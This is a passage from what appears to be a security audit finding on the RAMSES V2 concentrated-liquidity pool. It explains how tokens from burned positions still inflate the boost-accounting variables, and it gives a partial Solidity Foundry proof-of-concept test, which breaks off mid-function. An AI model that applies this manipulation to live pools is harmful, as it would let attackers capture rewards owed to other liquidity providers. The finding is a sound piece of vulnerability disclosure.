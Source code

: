 However, when a position is burned, the [tokens continue to accrue to the pool](https://github.com/RamsesExchange/RAMSES-Contracts/blob/9f661f89c925413da6b3433141b0e4d67bdba5b1/contracts/v2/RamsesV2Pool.sol#L868) until [`collect()`](https://github.com/RamsesExchange/RAMSES-Contracts/blob/9f661f89c925413da6b3433141b0e4d67bdba5b1/contracts/v2/RamsesV2Pool.sol#L769) is called by the burner.  This means that even though the tokens may be allocated to the burner, and they can retrieve them at any time, they continue to contribute to the `boostedLiquidityCap`, `veRamBoostAvailable`, and `positionBoostUsedRatio` variables when positions are updated.  This means that `boostedLiquidityCap` and `veRamBoostAvailable` can be inflated, and `positionBoostUsedRatio` deflated, to any value an attacker would like without supplying additional liquidity.

See this POC illustrating the point in code:

```solidity
contract AttachTest is Test {

    RamsesV2Pool _pool;
    RamsesV2Factory _factory;
    MockVoter _voter;
    MockNFPManager _nfpManager;
    MockVotingEscrow _veRam;
    MockERC20 _token0;
    MockERC20 _token1;


    function setUp() public {
        _pool = new RamsesV2Pool();
        _factory = new RamsesV2Factory();
        _voter = new MockVoter();
        _nfpManager = new MockNFPManager();
        _veRam = new MockVotingEscrow();
        _token0 = new MockERC20("0", "token_0", 18);
        _token1 = new MockERC20("1", "token_1", 18);

        deal(address(_token0), address(this), type(uint256).max);
        deal(address(_token1), address(this), type(uint256).max);

        vm.label(address(_pool), "_pool");
        vm.label(address(_token0), "_token0");
        vm.label(address(_token1), "_token1");
        vm.label(address(_factory), "_factory");
        vm.label(address(_veRam), "veRam");
        vm.label(address(_nfpManager), "_nfpManager");
        vm.label(address(_voter), "_voter");

        _factory.initialize(address(_nfpManager), address(_veRam), address(_voter), address(0));
        _pool.initialize(address(_factory), address(_nfpManager), address(_veRam), address(_voter), address(_token0), address(_token1), 10_000, 200);
        _pool.initialize(393495975901102234655829);
    }

    function tickSpacingToMaxLiquidityPerTick(int24 tickSpacing) public pure returns (uint128) {
        int24 minTick = (TickMath.MIN_TICK / tickSpacing) * tickSpacing;
        int24 maxTick = (TickMath.MAX_TICK / tickSpacing) * tickSpacing;
        uint24 numTicks = uint24((maxTick - minTick) / tickSpacing) + 1;
        return type(uint128).max / numTicks;
    }

    function testBurnAndMint() public {
        uint256 period = block.timestamp / (1 weeks);
        ( 
            uint160 sqrtPriceX96, 
            int24 tick, 
            uint16 observationIndex, 
            uint16 observationCardinality, 
            uint16 observationCardinalityNext, 
```
